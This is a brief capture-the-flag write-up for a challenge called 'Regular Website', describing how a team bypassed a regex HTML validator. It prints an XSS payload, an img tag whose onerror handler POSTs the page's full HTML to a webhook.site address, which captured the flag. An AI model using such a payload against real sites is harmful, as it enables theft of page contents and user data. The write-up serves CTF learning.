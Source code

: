 # Regular Website


After a quick look at the source code, we can see that the regex is a html validator. One of my teammates found the following bypass: `<img src=https://webhookurl.com <`. Then I tried with `onerror="post request to the webhook"` and it worked as long as there were no newlines in the text. From that one of my teammates made the following payload to send the page contents to a webhook: `<img src=a onerror="const xhr = new XMLHttpRequest(); xhr.open('POST', 'https://webhook.site/127923f4-5e6e-4b1a-b11f-723c83e5aae9/%27+encodeURIComponent(document.documentElement.innerHTML.replace(/(/s)/gm, ''))); xhr.send();"<` and we got the flag.

